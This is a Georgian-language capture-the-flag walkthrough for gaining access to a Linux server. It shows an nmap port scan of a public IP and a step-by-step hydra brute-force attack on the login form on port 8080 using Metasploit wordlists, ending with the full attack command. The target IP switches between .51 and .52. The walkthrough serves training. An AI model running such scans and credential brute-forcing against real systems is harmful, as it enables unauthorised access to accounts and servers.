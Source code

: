 ## მოცემულია GNU/Linux სერვერი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და მოიპოვოთ ე.წ. "flag"-ი.

1. nmap-ის გამოყენებით ვნახოთ რომელი პორტებია სერვერზე გახსნილი:
    ```bash
    nmap 185.212.254.51
    ```
    Output:
    ```bash
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 09:35 EDT
    Nmap scan report for 185.212.254.51
    Host is up (0.021s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    8080/tcp open  http-proxy

    Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
    ```
    როგორც ვხედავთ 8080 პორტი გახსნილია და http-proxy არის გაშვებული

2. გავხსნათ ბრაუზერი და შევიდეთ ამ IP:PORT-ზე. URL-ში ჩავწეროთ “185.212.254.51:8080“.
    შესვლისას დაგვხვდება ასეთი ფეიჯი  
    ![index.png](.images/index.png)

3. ფეიჯის inspect-მა საინტერესო არაფერი გვანახა, ამიტომ შევეცადოთ bruteforce-ით გადავუაროთ და შევეცადოთ გავტეხოთ user/pass.

    ამისთვის გამოვიყენებთ hydra-ს.

    ```bash
    hydra -L <USER_FILE> -P <PASS_FILE> <HOST> -s <PORT> http-post-form "<PATH>:<BODY>:<ERR_MSG>" -V 

    Flags:
      -L Usernames ფაილის მითითება
      -P Passwords ფაილის მითითება
      -s პორტის მითითება
      -V (Verbos mode) გამოიტანს ყველა მცდელობას

    Variables:
      <USER_FILE> - ფაილი, საიდანაც წაიკIთხავს იუზერნეიმების სიას
      <PASS_FILE> - ფაილი, საიდანაც წაიკIთხავს პაროლების სიას
      <HOST> - IP მისამართი, რომელიც უნდა გავტეხოთ
      <PORT> - პორტი რომელზეც არის კონკრეტული სერვისი გაშვებული
      <PATH> - საიტზე იმ ფაილის მისამართი, სადაც ხდება აუთენთიფიკაცია
      <BODY> - პარამეტრები, რომლებიც გადაეცემა დალოგინებისას
      <ERR_MSG> - წარუმატებელი დალოგინებისას გამოტანილი მესიჯი
    ```

    * **USER_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_users.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_users.txt)
    * **PASS_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_passwords.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_passwords.txt) 
    * **HOST** - IP მისამართი რომელზეც სერვერია გაშვებული, ჩემს შემთხვევაში `185.212.254.51`
    * **PORT** - როგორც პირველ პუნქტში ვნახეთ სერვერი გაშვებულია `8080` პორტზე
    * **PATH** - დასალოგინებლად უნდა შევიდეთ შემდეგ მისამართზე 185.212.254.52:8080/login ანუ ფაილის მისამართია `/login`
    * **BODY** - ამ პარამეტრების ნახვა შეგვიძლია network ტაბის გამოყენებით.
      * გავხსნათ Inspect ბრაუზერში და გადავიდეთ Network ტაბზე. 
      * ჩავწეროთ რენდომ იუზერნეიმ/პაროლი მაგალითად: test_user/test_pass
      * Network-ში ჩამონათვალში მოვნიშნოთ ის სტრიქონი, სადაც ფაილი არის login
      * ვნახოთ გაგზავნილი payload:
        * Chrome: Headers -> Form Data -> view Source
        * Firefox: Headers -> Edit and Resend -> Request Body
        * სხვა ბრაუზერებისთვის სხვანაირად იქნება და თქვენ იცით არ შერცხვეთ.

        შედეგი: '''username=test_user&password=test_pass&login-submit=Log+In'''
        Hydra-ს უნდა მივუთითოთ თუ სად უნდა ჩაწეროს username/password, ამისთვის იყენებენ ორ keywords: ^USER^ და ^PASS^.
        ჩვენს შემთხვაში test_user-ის მაგივრად უნდა ჩავწეროთ ^USER^, ხოლო test_pass-ის მაგივრად ^PASS^.
        საბოლოოდ ვიღებთ: `"username=^USER^&password=^PASS^&login-submit=LogIn"`
      ![body.png](.images/body.png)

    * **ERR_MSG** - დავლოგინდეთ რენდომ იუზერნეიმითა და პაროლით. ფეიჯზე გაჩნდება შემდეგი მესიჯი `Invalid Username/Password`

    ახლა კი ავაწყოთ მთლიანი ბრძანება:
    ```bash
      hydra -L unix_users.txt \
            -P unix_passwords.txt \
            185.212.254.52 \
            -s 8080 \
            http-post-form "/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password" \
            -V
    ```
